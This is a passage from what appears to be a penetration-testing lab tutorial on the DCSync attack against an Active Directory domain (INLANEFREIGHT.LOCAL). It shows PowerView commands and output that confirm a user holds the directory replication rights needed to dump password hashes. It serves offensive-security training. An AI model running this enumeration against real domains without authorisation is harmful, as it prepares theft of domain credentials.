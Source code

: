 ```powershell-session
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl


samaccountname     : adunn
objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
memberof           : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
                     Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
```

PowerView can be used to confirm that this standard user does indeed have the necessary permissions assigned to their account. We first get the user's SID in the above command and then check all ACLs set on the domain object (`"DC=inlanefreight,DC=local"`) using [Get-ObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainObjectAcl/) to get the ACLs associated with the object. Here we search specifically for replication rights and check if our user `adunn` (denoted in the below command as `$sid`) possesses these rights. The command confirms that the user does indeed have the rights.

#### Using Get-ObjectAcl to Check adunn's Replication Rights

DCSync

```powershell-session
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-All
```
